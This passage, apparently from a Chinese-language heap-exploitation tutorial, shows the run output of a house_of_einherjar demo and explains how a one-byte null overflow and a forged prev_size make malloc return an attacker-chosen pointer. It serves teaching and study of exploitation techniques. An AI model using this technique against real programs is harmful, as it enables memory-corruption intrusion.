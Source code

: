 编译，运行得到结果：
\begin{verbatim}
$ gcc -g house_of_einherjar.c 
$ ./a.out 
We allocate 0x10 bytes for 'a': 0xb31010

Our fake chunk at 0x7ffdb337b7f0 looks like:
prev_size: 0x80
size: 0x80
fwd: 0x7ffdb337b7f0
bck: 0x7ffdb337b7f0
fwd_nextsize: 0x7ffdb337b7f0
bck_nextsize: 0x7ffdb337b7f0

We allocate 0xf8 bytes for 'b': 0xb31030
b.size: 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

We write a fake prev_size to the last 8 bytes of a so that it will consolidate with our fake chunk
Our fake prev_size will be 0xb31020 - 0x7ffdb337b7f0 = 0xffff80024d7b5830

Modify fake chunk's size to reflect b's new prev_size
Now we free b and this will consolidate with our fake chunk
Our fake chunk size is now 0xffff80024d7d6811 (b.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk: 0x7ffdb337b800
\end{verbatim}

\verb+ house-of-einherjar+是一种利用\verb+ malloc+ 来返回一个附近地址的任意指针。它要求有一个单字节溢出漏洞，覆盖掉\verb+ next chunk+的\verb+ size+字段并清除\verb+ PREV_IN_USE+标志，然后还需要覆盖\verb+ prev_size+字段为\verb+ fake chunk+的大小。
当\verb+ next chunk+被释放时，它会发现前一个\verb+ chunk+被标记为空闲状态，然后尝试合并堆块。只要我们精心构造一个\verb+ fake chunk+，并让合并后的堆块范围到\verb+ fake chunk+处，那下一次\verb+ malloc+将返回我们想要的地址。

\subsection{house\_of\_force}

